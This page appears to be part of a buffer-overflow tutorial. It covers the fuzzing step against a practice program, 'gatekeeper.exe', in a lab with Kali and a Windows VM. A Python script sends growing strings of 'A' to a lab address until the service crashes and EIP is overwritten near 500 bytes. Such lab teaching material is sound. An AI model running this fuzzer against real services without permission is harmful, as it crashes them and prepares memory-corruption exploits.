


You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

 

Then click the start button:


Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:






We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
